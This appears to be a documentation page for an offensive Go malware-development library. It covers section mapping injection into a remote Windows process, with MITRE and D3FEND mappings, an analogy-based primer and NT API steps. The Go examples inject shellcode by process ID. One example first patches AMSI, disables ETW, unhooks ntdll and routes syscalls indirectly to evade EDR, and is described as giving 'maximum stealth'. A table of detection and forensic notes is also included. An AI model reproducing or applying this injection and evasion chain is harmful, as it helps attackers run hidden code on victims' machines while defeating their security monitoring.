

# Section Mapping Injection

> **MITRE ATT&CK:** T1055.001 -- Process Injection: DLL Injection | **D3FEND:** D3-PSA -- Process Spawn Analysis | **Detection:** Medium

## Primer

Think of a shared whiteboard in an office building. You go to the supply room and request a new whiteboard (a "section"). You mount it on the wall in your own office and write your instructions on it. Then you ask building management to mount the same whiteboard in your colleague's office -- not a copy, the exact same board. Your colleague can now read and execute those instructions, and at no point did you walk into their office to write anything. You only wrote on the board in your own space.

Section mapping injection works this way using Windows shared memory sections. You create a section object, map a read-write view into your own process (so you can write shellcode), then map a read-execute view of the same section into the target process. Because both views share the same physical pages, the shellcode you wrote locally is instantly visible in the remote process. The critical advantage: you never call `WriteProcessMemory`, which is one of the most monitored APIs.

## How It Works



**Step-by-step:**

1. **NtCreateSection** -- Create a page-file-backed section object with `SEC_COMMIT` and `PAGE_EXECUTE_READWRITE` protection. Size matches the shellcode length.
2. **NtMapViewOfSection (local, RW)** -- Map a writable view of the section into the current process.
3. **Write shellcode** -- Copy shellcode bytes into the local view using a simple `copy()`. No cross-process write API needed.
4. **NtMapViewOfSection (remote, RX)** -- Map a read-execute view of the same section into the target process. The kernel uses `ViewShare` disposition so both views reference the same physical pages.
5. **NtUnmapViewOfSection (local)** -- Unmap the local view since it is no longer needed.
6. **NtCreateThreadEx** -- Create a remote thread in the target at the mapped address (or use `CreateRemoteThread` as fallback when no `Caller` is provided).

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // Section mapping with standard WinAPI (no caller = nil).
    if err := inject.SectionMapInject(1234, shellcode, nil); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/evasion/unhook"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // Create an indirect syscall caller for maximum stealth.
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHellsGate(), wsyscall.NewHalosGate()))

    // Apply evasion with the same caller.
    techniques := []evasion.Technique{
        amsi.ScanBufferPatch(),
        etw.All(),
        unhook.Full(),
    }
    evasion.ApplyAll(techniques, caller)

    // Section mapping injection -- no WriteProcessMemory call anywhere.
    if err := inject.SectionMapInject(1234, shellcode, caller); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | High -- avoids `WriteProcessMemory` entirely. Shellcode transfer happens through shared kernel-managed pages. |
| API surface | Uses only NT native APIs (`NtCreateSection`, `NtMapViewOfSection`, `NtCreateThreadEx`), all routable through `*wsyscall.Caller`. |
| Compatibility | Windows Vista+ (NT section APIs are stable). |
| Limitations | Still creates a remote thread (detectable via `PsSetCreateThreadNotifyRoutine`). The section object itself may be logged by ETW. Page-file-backed sections with RX mapping are unusual and may trigger heuristics. |
| Memory forensics | Shared sections leave artifacts in the kernel section object table. Volatility/Rekall can identify them. |

## API Reference

```go
// SectionMapInject injects shellcode into a remote process using shared section
// mapping. No WriteProcessMemory is called.
//
// If caller is non-nil, NT syscalls are routed through it for EDR bypass;
// otherwise the standard ntdll exports are used.
func SectionMapInject(pid int, shellcode []byte, caller *wsyscall.Caller) error
```
